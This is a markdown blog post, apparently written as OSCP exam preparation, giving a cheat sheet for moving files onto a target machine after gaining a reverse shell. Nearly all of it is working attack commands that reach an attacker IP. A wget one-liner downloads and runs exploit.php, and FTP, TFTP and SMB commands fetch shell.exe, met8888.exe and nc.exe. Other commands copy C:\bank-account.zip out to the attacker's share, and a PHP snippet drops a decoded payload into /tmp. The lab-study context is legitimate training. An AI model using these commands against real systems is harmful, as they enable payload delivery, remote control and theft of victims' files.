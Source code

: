 ```yaml
---
title:  "Transfer files from Kali to the target machine"
date:   2018-03-26 03:22:33 +0800
categories: OSCP
classes:
  - landing
header:
  teaser: /assets/img/oscp-teaser.jpg
---
```


Tranfer files to the target machine is particularly useful when we have already had a reverse shell on Windows. Windows does not have convenient commands to download files such as wget in Linux.

## If PHP RFI is available
Use PHP base64_decode
```php
<?php
$file = '/tmp/findsock';
$fp = fopen($file, 'wb');
fwrite($fp, base64_decode($encoded));
fclose($fp);
system("chmod 0777 " . $file);
echo system("ls -la /tmp");
?>
```

## To Linux machine
Use wget
```
cd /tmp && wget -O exploit.php 10.11.0.105/exploit.php && php -f exploit.php
```

## To Windows machine
### HTTP Server
```
python -m SimpleHTTPServer 80
```
### FTP Server
To start Python FTP server:
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
To put/get files:
```
echo open 10.11.0.105>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get shell.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```
### TFTP Server
To start Kali TFTP server:
```
service atftpd start
```
To get files (put does not work):
```
tftp -i 10.11.1.5 GET met8888.exe
tftp -i 10.11.0.105 PUT C:\bank-account.zip // Not working
```
If tftp is not available:
```
pkgmgr /iu:"TFTP"  
```
### SMB Server
To start SMB server:
```
python /opt/impacket/examples/smbserver.py ROPNOP /root/
```
To put/get files:
```
copy \\10.11.0.105\ROPNOP\nc.exe .
copy C:\bank-account.zip \\10.11.0.105\ROPNOP\
```
**References**
- [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
- [http://ostrokonskiy.tk/2017/01/23/windows-privilege-escalation/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)

